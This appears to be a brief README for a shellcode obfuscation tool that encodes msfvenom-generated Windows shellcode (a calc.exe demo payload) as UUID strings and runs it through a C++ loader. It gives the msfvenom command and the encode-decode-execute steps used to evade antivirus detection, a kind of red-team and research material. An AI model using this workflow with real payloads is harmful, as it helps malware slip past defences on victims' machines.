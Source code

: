# Shellcode Obfuscation: UUID

## Usage

### 1. Generate Original Shellcode

```sh
msfvenom -p windows/x64/exec CMD=calc.exe -f py -v shellcode
```

### 2. Encode with UUID

```sh
python3 UUID.py
```

### 3. Decode UUIDs to Shellcode and Execute

Open `UUID.cpp` and replace the `shellcodeUUIDs` value with the above result. Then build/execute.
